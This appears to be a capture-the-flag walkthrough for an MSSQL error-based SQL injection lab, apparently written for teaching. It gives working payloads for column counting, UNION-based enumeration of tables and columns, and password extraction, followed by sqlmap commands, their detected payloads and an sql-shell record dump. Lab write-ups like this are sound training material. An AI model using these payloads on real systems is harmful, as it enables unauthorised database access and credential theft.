 ## Challenge #4 - Poema Reading club 7

## Objectives

- You want to find SQL injection vulnerabilities in the website, determining the type of SQL injection and its exploitability.
- You will also have to extract information from the database exploiting the vulnerability. This time you have to determine whether you can use a tool and eventually if you can use any other manual and more direct technique
- Find out Ruud password in the database

## What you will learn

- How to find SQL injection vulnerabilities manually
- How to determine which is the best SQL injection technique to use in certain cases
- How to extract information from a database using direct queries

## hints

- MSSQL
- Error-Based

## Resources

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
- http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

## Steps

The vulnerable endpoint is view_book.php. Open this endpoint and put a single quote as id "'".

```
http://4.challenge.sqli.site/view_book.php?id='
```

You will receive a MSSQL Error message as response. You

```
Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Unclosed quotation mark after the character string ' '. Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Incorrect syntax near ' '. 
```

Sending the payload "id=9999 or 1=1-- -", as the there is no book with id 9999 the system will return the first book retrieved.

Finding the number of columns.

```
id=9999 order by 3

No errors

id=9999 order by 4

No errors

id=9999 order by 5

No errors

id=9999 order by 6

No errors

id=9999 order by 7


Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]The ORDER BY position number 7 is out of range of the number of items in the select list. 
```

So, we have a query with 6 columns.

Now try to pass a union query with numbers.


```
id=9999 union select 91,92,93,94,95,96
```

In response you will get the number 94 as book title and 91 as book id.

```
<span style="border:1; color: #000000;">94<BR/><BR/><img src="books/91.jpg"><br/>
</center>
<p class="links"><a href="view_book.php?id=91">Read More</a></p>
```

Use the next query to fetch the current database

```
id=9999 union select 91,92,93,db_name(),95,96

poema
```

Through the next query, we will try to fetch table name inside the database

```
id=9999 union select 91,92,93,name,95,96 from poema..sysobjects where xtype = 'U'


Error: [Microsoft][SQL Server Native Client 11.0][SQL Server]Cannot resolve the collation conflict between "SQL_Latin1_General_CP1_CI_AS" and "Latin1_General_CI_AS" in the UNION operation. 
```

To solve this error you need send the correct collate on the field.

```
id=9999 union select 91,92,93,name collate database_default,95,96 from poema..sysobjects where xtype = 'U'

books

id=9999 union select 91,92,93,name collate database_default,95,96 from poema..sysobjects where xtype = 'U' and name != 'books'

club_members
```

Now you need to list all columns from club_members table.

```
id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members')

city

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city'

id

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city' and name != 'id'

name

id=9999 union select 91,92,93,name collate database_default,95,96 from syscolumns where id = (select id from sysobjects where name = 'club_members') and name != 'city' and name != 'id' and name != 'name'

password
```

Now we can retrieve the Ruud password.

```
id=9999 union select 91,92,93,password collate database_default,95,96 from club_members where name = 'Ruud'

WJI80JFF9XQ
```

# SQLMap way

Send the endpoint to SQLMap.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 55 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 1956=1956

    Type: inline query
    Title: Generic inline queries
    Payload: id=(SELECT CONCAT(CONCAT(CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113),(CASE WHEN (8259=8259) THEN CHAR(49) ELSE CHAR(48) END)),CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: id=1 AND 9928 IN (SELECT (CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113)+(SELECT (CASE WHEN (9928=9928) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113)))

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: id=1;WAITFOR DELAY '0:0:5'--

    Type: time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: id=1 WAITFOR DELAY '0:0:5'

    Type: UNION query
    Title: Generic UNION query (NULL) - 6 columns
    Payload: id=-9405 UNION ALL SELECT NULL,NULL,NULL,CHAR(113)+CHAR(98)+CHAR(106)+CHAR(118)+CHAR(113)+CHAR(117)+CHAR(68)+CHAR(68)+CHAR(122)+CHAR(119)+CHAR(110)+CHAR(116)+CHAR(77)+CHAR(70)+CHAR(84)+CHAR(83)+CHAR(80)+CHAR(102)+CHAR(65)+CHAR(65)+CHAR(84)+CHAR(119)+CHAR(102)+CHAR(68)+CHAR(108)+CHAR(103)+CHAR(111)+CHAR(103)+CHAR(82)+CHAR(78)+CHAR(109)+CHAR(78)+CHAR(114)+CHAR(107)+CHAR(100)+CHAR(102)+CHAR(87)+CHAR(105)+CHAR(85)+CHAR(85)+CHAR(76)+CHAR(74)+CHAR(98)+CHAR(117)+CHAR(67)+CHAR(113)+CHAR(107)+CHAR(122)+CHAR(113)+CHAR(113),NULL,NULL-- CMEc
---
```

List all databases.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch --dbs

available databases [11]:
[*] AdventureWorks
[*] AdventureWorks2014
[*] cmsmanagement
[*] ecommerce_books2
[*] Employees
[*] master
[*] model
[*] msdb
[*] poema
[*] tempdb
[*] usrmanagement
```

List all tables on poema database.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch -D poema --tables

Database: poema
[2 tables]
+--------------+
| books        |
| club_members |
+--------------+

```

Get a sql-shell and query for the Ruud user.

```
sqlmap -u http://4.challenge.sqli.site/view_book.php?id=1 --dbms=mssql --batch -D poema -T club_members --sql-shell

select * from club_members where name = 'Ruud'

retrieved: 'Cerritos','12','Ruud','WJI80JFF9XQ','feugiat@nonsollicitudin.org','73544'
```
